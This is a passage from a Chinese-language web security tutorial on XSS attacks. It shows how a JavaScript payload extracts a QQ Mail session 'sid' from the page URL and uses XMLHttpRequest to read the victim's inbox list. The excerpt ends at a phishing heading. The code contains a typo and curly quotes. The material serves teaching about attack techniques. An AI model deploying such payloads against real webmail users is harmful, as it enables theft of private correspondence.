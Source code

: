 ```javascript
ajax.onreadystatechange=function(){
  if (ajax.readyState==4 && ajax.status==200){
  	alert(“Done”);
  }
}
```

可以看出，在XSS攻击后，除了可以实施cookie劫持外，还能够通过模拟GET POST请求操纵用户的浏览器。

下面的例子将演示如何通过XSS Payload读取QMail用户的邮件文件夹:

首先看看正常的请求是如何获取到所有的邮件列表的。登录邮箱后，点击“收件箱”后。抓包发现浏览器发出了如下请求:

http://m57.mail.qq.com/cgi-bing/mail_list?sid=6a1hx3p5yzh…&folderid=1&page=0&s=index&loc=folderlist,,,1


经过分析，真正能访问到邮件列表的链接是:

http://m57.mail.qq.com/cgi-bin/mail_list?folderid=1&page=0&s=inbox&sid=6a1hx…

这里有一个无法直接构造出的值:sid。从字面推测，这个sid参数应该是用户ID加密后的值。

所以XSS Payload的思路是先获取到sid的值，然后构造完整的URL，并使用XMLHttpRequest请求到此URL，应该就能得到邮件列表了。XSS Payload如下:

```javascript
if (top.window.location.href.indexOf(“sid=”)>0){
	var sid=top.window..location.href.substr(top.window.location.href.indexOf(“sid=”)+4,24);
}

var folder_url=”http://”+top.window.location.host+”/cgi-bin/mail_list?folderid=1&page=0&s=inbox&sid=”+sid;

var ajax=null;
if (window.XMLHttpRequest){
	ajax=new XMLHttpRequest();
} else if (window.ActiveXObject){
	ajax=new ActiveXObject(“Microsoft.XMLHTTP”);
} else {
	return;
}

ajax.open(“GET”,folder_url,true);
ajax.send(null);

ajax.onreadystatechange=function(){
  if (ajax.readyState==4 && ajax.status==200){
	  alert(ajax.responseText);
	  //document.write(ajax.responseText);
  }
}
```

邮件列表的内容成功被XSS Payload获取到。

b)钓鱼:
